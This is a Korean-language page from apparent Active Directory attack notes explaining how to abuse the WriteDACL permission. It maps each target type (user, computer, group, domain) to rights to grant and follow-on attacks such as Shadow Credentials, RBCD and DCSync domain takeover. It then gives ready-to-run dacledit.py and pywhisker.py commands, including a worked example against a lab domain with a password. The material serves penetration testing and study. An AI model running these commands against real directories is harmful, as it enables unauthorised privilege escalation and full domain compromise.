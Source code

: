 # WriteDACL

* WriteDACL은 특정한 주체에게 대상의 특정 DACL 권한을 부여해줄 수 있는 권한이다.
* 블러드하운드 Edge

<figure><img src="../../.gitbook/assets/WriteDACL-config.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/bh-writedacl.png" alt=""><figcaption></figcaption></figure>

### 악용 - 유저, 컴퓨터, OU, 컨테이너, 도메인

* 특정 대상에게 어떠한 권한이든 부여해 줄 수 있으니, 대상의 종류에 맞춰 필요한 권한을 부여해준 뒤, 그 권한을 바탕으로 공격을 진행한다.
* 대상에 종류에 따른 부여할 권한과 그 이후 공격들은 다음과 같다.
  * 유저: FullControl 권한 부여 후 Shadow Credentials, Targeted Kerberoasting, Force Change Password 등의 공격 진행
  * 컴퓨터: FullControl 권한 부여 후 Shadow Credentials, RBCD 등의 공격 진행
  * 그룹: WriteMembers 권한 부여 후 AddMember 권한으로 공격자 유저를 그룹에 참여
  * 도메인: DCSync 권한 부여 후 DCSync 기능으로 도메인 장악
  * GPO: 패스

```
# DACL 수정 - FullControl 
dacledit.py -action write -rights FullControl -inheritance -principal principal -target-dn 'OUDistinguishedName' domain/user:password

# DACL 수정 - WriteMembers 
dacledit.py -action write -rights WriteMembers -inheritance -principal principal -target-dn 'OUDistinguishedName' domain/user:password

# DACL 수정 - DCSync 
dacledit.py -action write -rights DCSync -inheritance -principal principal -target-dn 'OUDistinguishedName' domain/user:password

# 예시) DaclEdit 을 이용해 모든 컴퓨터 머신 계정들에게 FullControl 권한 획득 
dacledit.py -action write -rights FullControl -principal 'abuse' -inheritance -target-dn 'CN=Computers,DC=choi,DC=local' choi.local/abuse:'Password123!'

# 예시) FullControl 을 얻은 이후 머신 계정을 향한 ShadowCredentials 공격 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target 'wkstn01$' --action add

# 되돌리기 
dacledit.py -action restore -file dacledit.bak domain.com/user:pass
```





